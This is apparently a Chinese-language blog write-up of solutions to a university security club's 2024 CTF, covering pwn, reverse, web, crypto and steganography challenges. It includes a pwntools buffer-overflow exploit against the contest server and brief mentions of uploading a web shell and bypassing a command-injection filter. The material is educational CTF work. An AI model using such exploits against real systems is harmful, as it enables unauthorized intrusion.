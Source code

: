 ```yaml
---
title: 成大資安社迎新盃CTF 2024 - write-up
published: 2024-10-21
description: '在成大資安社迎新盃 CTF 中所解出來的題目 write-up'
image: 'CTF.png'
tags: [CTF,write-up,Cyber Secutity]
category: 'CTF'
draft: false 
---
```


## 心得
當賽棍拿摸了個 #7 真開心 XD

![image](https://hackmd.io/_uploads/S1aGoSLIyl.png)

## Pwn
### [新手友善] Overflow Tutorial
第一題問你有一個 8-bit unsigned integer (0 ~ 255)  
現在它是 5 ，請問你要加多少它才會變0  
第二題問你，現在有一個 input buffer 為 0x4040a0    
Target is at 0x4040c0  
Target now has string: pwn2ooo  
要怎麼 overwrite string，很簡單，以下的payload可以幫你
```
12345678901234567890123456789012NCKUCTF
```
### Every pwner's first challenge
經典的入門題，要利用 buffer overflow 來指向到 call_me 的位址
payload:
```py
from pwn import *

r = remote('chall.nckuctf.org', 29102)
call_me_addr = p64(0x401196)

payload = b'A' * 40
payload += call_me_addr

r.recvline()
r.sendline(payload)
r.interactive()
```
## Reverse(破台)
### ✌️✊✋
直接玩就會出 Flag
### Youtube Video Recommendation Tool
開 Ghidra 出來看，把網址一個一個貼上
### Baby Python Assembly
把 python assembly 丟給 AI 叫他翻譯  
然後拿去 decrypt 就可以得到 Flag
### 2048??
打開 DIE(Detect it easy) ，發現是 C#  
打開 dnSpy，發現 Goal = 2486
直接 patch 改成 8 ，然後玩遊戲合成出 8 就直接 Get Flag
### ✌️✊✋ Revenge
DIE 發現有 UPX 殼，先脫殼  
之後發現程式卡住，先 Patch sleep time  
然後發現怎麼出都輸，回去看程式碼，才發現初始化的部分有問題  
把初始化的字串 Patch 掉之後，必輸變成必贏  
直接 Get Flag  
## Web
### Just Image
Source Code 發現它 Path 是利用 base64編碼  
直接把 /flag 拿去編碼，之後 curl 就有 Flag  
~~這題搞了我兩個小時~~
### Looking Glass
看了 source code ，發現只能用 ping 跟 traceroute 才能下 command
之後看到了比較重要的地方
```py
if not re.match('^[+-9A-~]*$', target):
```
意思是 ASCII 從 + ~ 9 ，從A ~ ~ 都不可以用  
之後想了蠻久的一段時間，然後就莫名其妙蹦出來可以用逗號跟大括號的想法    
之後就直接解出Flag
### 好駭客的網站
簡單的 Burp 去竄改封包然後上傳 web shell
## Crypto
### my fiRSt chAllenge
n 是質數就直接暴力算就解開了
### E?
Common Modulus Attack 就可以解出來ㄌ
### [新手友善] BabyRSA (水題兼自己腦抽)
(一堆OOXX)為什麼就沒意識到自己填充方式錯了...
## Misc
### BabyLSB
當初有在讀書會聽檸檬希望分享音頻 CTF 的題材，再加上這題附件的附檔名是wav
應該是音頻解密，就去網路上找 decrypt script
```py
import wave

def extract_data(frames):
    by = 0
    ret = []
    for i, frame in enumerate(frames):
        lsb = frame & 0b00000001
        by += (2**(7 - (i % 8))) * lsb

        if i % 8 == 7:
            ret.append(by.to_bytes(1, "little"))
            by = 0

    return b"".join(ret)



if __name__ == '__main__':
    filename = "Yee_is_good.wav"
    wf = wave.open(filename, "rb")
    print(wf.getparams())

    frames = wf.readframes(wf.getnframes())
    flag = extract_data(list(frames)[:1000])
    wf.close()

    print(flag)
```